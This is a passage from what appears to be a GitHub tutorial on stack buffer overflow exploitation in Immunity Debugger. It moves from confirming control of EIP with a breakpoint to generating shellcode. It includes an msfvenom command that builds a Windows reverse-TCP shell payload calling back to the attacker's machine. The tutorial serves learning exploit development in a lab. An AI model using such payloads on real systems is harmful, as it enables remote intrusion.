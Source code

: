- we should see the following output, meaning that we actually jumped to the ESP

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/13-finding-ESP.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/13-finding-ESP.png)

- select it and hit **F2** (it will turn it blue)
- with that we just set a break point so it will not execute any further, it will break and wait for further instructions from us and that's what we want
- we're not gonna jump to anywhere and that doesn't matter, all we need to know is that our break point works
- to test it hit play in Immunity Debugger and run the exploit.py script. The program will stop and break at our break point
- we control the EIP now, we need to generate some shell code and point directly to it and we're in the home run!

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/14-control-the-EIP.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/14-control-the-EIP.png)

## Gaining Shell Code And Gaining Root

- we're gonna use ***msfvenom*** to generate our shell code
- `msfvenom -p windows/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali port> EXITFUNC=thread -f c -a x86 -b "\x00"`
- `p` for payload, `f` for file type (export it in C), `a` for architecture `b` and for bad bytes (from your notes you made earlier)
- copy generated shell code into our exploit.py script (we don't need the `:` at the end)
- always note the ***payload size***, it's not gonna matter now but could matter later in a more advanced exploit development
